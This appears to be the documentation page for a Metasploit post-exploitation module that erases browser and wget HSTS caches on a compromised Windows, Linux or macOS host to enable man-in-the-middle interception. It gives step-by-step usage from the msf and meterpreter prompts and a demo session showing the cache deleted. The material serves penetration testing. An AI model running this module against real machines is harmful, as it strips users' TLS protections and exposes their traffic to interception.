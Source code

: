 This module allows you to erase the [HTTP Strict-Transport-Security](https://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security) cache of a target machine.  When combined with a sniffer or a man-in-the-middle tool, this module will assist with the capture/modification of TLS-encrypted traffic.

**WARNING:** This module _erases_ the HSTS cache, leaving the target in a vulnerable state.  All browser traffic from all users on the target will be subject to man-in-the-middle attacks.  There is no undo built-into this module.  If you intend to revert, you must first backup the HSTS file before running the module.

Note: This module searches for all non-root users on the system.  It will not erase HSTS data for the root user.

## Vulnerable Application

The following platforms are supported:
* Windows
* Linux
* OS X

## Verification Steps

1. Obtain and background a session from the target machine.
2. From the `msf>` prompt, do ```use post/multi/manage/hsts_eraser```
3. Set the ```DISCLAIMER``` option to ```True``` (after reading the above **WARNING**)
4. Set the ```SESSION``` option
5. ```run```

Alternatively:

1. Obtain a session from the target machine.
2. From the `meterpreter>` prompt, do ```run post/multi/manage/hsts_eraser DISCLAIMER=True```

## Demo

Set up a Kali VM with some HSTS data:

```bash
root@kali-2017:~# adduser bob
root@kali-2017:~# su bob
bob@kali-2017:/root$ cd

bob@kali-2017:~$ wget -S https://outlook.live.com/owa/ 2>&1 | grep -i strict
  Strict-Transport-Security: max-age=31536000; includeSubDomains
  Strict-Transport-Security: max-age=31536000; includeSubDomains
bob@kali-2017:~$ cat .wget-hsts 
# HSTS 1.0 Known Hosts database for GNU Wget.
# Edit at your own risk.
# <hostname>	<port>	<incl. subdomains>	<created>	<max-age>
outlook.live.com	0	1	1519176414	31536000
```

Create an `msfvenom` payload, execute it, and then connect to it with `multi/exploit/handler`.  From the Meterpreter session on the victim:

```
[*] Meterpreter session 1 opened (127.0.0.1:38089 -> 127.0.0.1:44444) at 2018-02-20 19:19:02 -0600

meterpreter > run post/multi/manage/hsts_eraser DISCLAIMER=True

[*] Removing wget HSTS database for bob... 
[*] HSTS databases removed! Now enjoy your favorite sniffer! ;-)
```

Confirm that the file was deleted:

```bash
bob@kali-2017:~$ cat .wget-hsts 
cat: .wget-hsts: No such file or directory
```
